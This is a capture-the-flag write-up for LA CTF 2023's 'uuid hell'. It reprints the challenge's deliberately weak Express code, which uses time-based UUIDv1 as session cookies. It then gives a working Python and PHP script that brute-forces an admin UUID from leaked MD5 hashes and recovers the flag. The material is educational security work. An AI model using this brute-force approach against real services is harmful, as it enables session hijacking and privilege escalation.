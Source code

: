 ```yaml
---
Title: uuid hell - LA CTF 2023
Date: 2023-02-15T00:00:00+05:30
Tags: [web, lactf23-writeups, ctf, writeup, hash-collision, uuid]
Categories: [lactf23-writeups,All Writeups]
Authors: [Rohit]
---
```


#### tl;dr

 - It uses uuidv1 which is time-based
 - We get the user uid from the cookie
 - Then create an admin and get all the current admin hashes as an array from the web page
 - Create another user
 - Brutefoce the first eight bytes of the uuid in the range and check with each hash in the array
 - Use the one that matches

<!--more-->

## Description

UUIDs are the best! I love them (if you couldn't tell)!

- **Author** : burturt
- **Category** : Web
- **Points** : 391
- **Solves** : 165


## Solution

### Understanding the challenge

So the challenge gives us a web page where we can create users and admins. We can also see the list of admin's and user's id hashes (most recent 50 hashes). We can get the regular user's cookie but we can't get the admin cookie we can only create admin users. We can also see the source code for the web page.

```js
const uuid = require('uuid');
const crypto = require('crypto')

function randomUUID() {
    return uuid.v1({'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69], 'clockseq': 0b10101001100100});
}
let adminuuids = []
let useruuids = []
function isAdmin(uuid) {
    return adminuuids.includes(uuid);
}
function isUuid(uuid) {
    if (uuid.length != 36) {
        return false;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            return false;
        }
    }
    return true;
}

function getUsers() {
    let output = "<strong>Admin users:</strong>\n";
    adminuuids.forEach((adminuuid) => {
        const hash = crypto.createHash('md5').update("admin" + adminuuid).digest("hex");
        output += `<tr><td>${hash}</td></tr>\n`;
    });
    output += "<br><br><strong>Regular users:</strong>\n";
    useruuids.forEach((useruuid) => {
        const hash = crypto.createHash('md5').update(useruuid).digest("hex");
        output += `<tr><td>${hash}</td></tr>\n`;
    });
    return output;

}

const express = require('express');
const cookieParser = require("cookie-parser");

const app = express();
app.use(cookieParser());



app.get('/', (req, res) => {
    let id = req.cookies['id'];
    if (id === undefined || !isUuid(id)) {
        id = randomUUID();
        res.cookie("id", id);
        useruuids.push(id);
    } else if (isAdmin(id)) {
        res.send(process.env.FLAG);
        return;
    }

    res.send("You are logged in as " + id + "<br><br>" + getUsers());
});

app.post('/createadmin', (req, res) => {
    const adminid = randomUUID();
    adminuuids.push(adminid);
    res.send("Admin account created.")
});

app.listen(process.env.PORT);
```
Here we can see that the website uses [uuidv1](https://www.sohamkamani.com/uuid-versions-explained/#v1--uniqueness). 

### Problems with UUID V1

We can see the options for uuid v1 [here](https://www.npmjs.com/package/uuid#uuidv1options-buffer-offset)

![uuidv1](images/uuidv1.png)

In the code, we can see that they are giving 2 arguments `node` and `clockseq`

```js
function randomUUID() {
    return uuid.v1({'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69], 'clockseq': 0b10101001100100});
}
```

We can get the code for uuidv1 [here](https://github.com/uuidjs/uuid/blob/main/src/v1.js).

`node` and `clockseq` are initialized to random values if they are not given as arguments. But as we are providing them as arguments, most of the uuid is constant for a given time.

![constant](images/constant.png)

UUID V1 is time-based. Only the first 8 bytes are changing and they are changing according to time and are in increasing order. With this info, we can easily brute-force it and get the admin cookie. At least that's what we thought

### Bruteforcing

So we started making a python script for that. [code](files/exp.py)


```py
import requests
import time
import hashlib
import os
url="https://uuid-hell.lac.tf/"

uuid = requests.get(url).cookies.get_dict()['id']
print(requests.post(url+"createadmin").text)
uuid2 = requests.get(url).cookies.get_dict()['id']

time.sleep(10)
r = requests.get(url).text
admin_hashs = r.split("\n")[1:51]
admin_hashs = list(map(lambda x: x[8:-10],admin_hashs))

print("Length:",len(admin_hashs))
print("Regular UUID:",uuid)
print("Regular UUID2:",uuid2)
os.system("php exp.php "+uuid+" "+','.join(admin_hashs)+" "+uuid2)
```

And for brute-forcing, we used PHP as it will be faster. [code](files/exp.php)

```php
<?php

$uuid = $argv[1];
$admin_hash = $argv[2];
$uuid2 = $argv[3];

$admin_hashs = explode(",", $admin_hash);

$start = hexdec(substr($uuid, 0, 8));
$end = hexdec(substr($uuid2, 0, 8));
$uuid = substr($uuid, 9);
echo "Starting Brute Force... " . $start . " " . $uuid . "\n";
echo "Admin Hash: " . $admin_hash . "\n";

for ($i = $start; $i < $end; $i++) {
    $hash = md5("admin" . dechex($i) . "-" . $uuid);
    echo "Trying: " . dechex($i) . "-" . $uuid . " " . $hash . "\r";
    if (in_array($hash, $admin_hashs)) {
        echo "\nAdmin UUID: " . dechex($i) . "-" . $uuid . "\n";
        break;
    }
}
?>
```

So here we are creating a user first, then we go on and create an admin. After that, we create another user. We then brute force the first 8 bytes of the uuid in the range of the two users. We then check if the hash of the admin uuid matches with any of the admin hashes. If it does we get the admin cookie.


![bruteforce](images/bruteforce.gif)

Setting this as a cookie and visiting the page will give us the flag.


**Flag**: `lactf{uu1d_v3rs10n_1ch1_1s_n07_r4dn0m}`